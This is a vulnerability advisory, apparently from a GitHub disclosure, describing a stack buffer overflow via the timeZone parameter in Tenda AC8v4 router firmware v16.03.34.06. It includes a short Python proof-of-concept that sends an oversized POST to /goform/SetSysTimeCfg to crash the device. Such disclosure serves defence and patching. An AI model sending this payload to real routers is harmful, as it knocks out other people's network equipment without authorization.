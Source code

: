 # Tenda AC8v4 v16.03.34.06 fromSetSysTime

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

AC8v4 v16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v3` variable receives the `timeType` parameter from a POST request and we let `v3=="sync"` to execute function `sub_4A75C0`. 

![1735745539949](F:\Desktop\工具\二进制漏洞\IoT\img\1735745539949.png)

The `s` variable receives the `timeZone` parameter from a POST request. However, since the user can control the input of `timeZone`, the statement `strcpy((char *)v6, s);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v6` array, triggering this security vulnerability.

![1735745606521](F:\Desktop\工具\二进制漏洞\IoT\img\1735745606521.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.1.100"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*1000

data = {
        'timeType':'sync',
        'timeZone':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![1735745816017](F:\Desktop\工具\二进制漏洞\IoT\img\1735745816017.png)